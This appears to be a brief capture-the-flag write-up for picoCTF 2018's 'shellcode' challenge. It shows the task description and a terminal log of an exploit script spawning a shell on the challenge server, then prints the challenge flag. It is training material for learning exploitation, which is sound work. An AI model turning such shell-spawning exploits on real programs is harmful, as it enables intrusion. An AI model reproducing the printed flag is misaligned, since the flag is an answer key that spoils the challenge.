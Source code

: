 # shellcode - Points: 200 - (Solves: 233)

This [program][1] executes any input you give it.
Can you get a shell?
You can find the program in
/problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd
on the shell server.
[Source][2].

[1]: https://2018shell2.picoctf.com/static/dd374b1b011341e516ddaaca8bcf7323/vuln
[2]: https://2018shell2.picoctf.com/static/dd374b1b011341e516ddaaca8bcf7323/vuln.c

---

Server shell

```sh
% python xpwn.py
[+] Starting local process '/problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd/vuln': pid 4072151
[+] Get the shell
[*] Switching to interactive mode
flag.txt  vuln    vuln.c
$ cat fl*
picoCTF{shellc0de_w00h00_b766002c}$
[*] Stopped process '/problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd/vuln' (pid 4072151)
```

picoCTF{shellc0de_w00h00_b766002c}
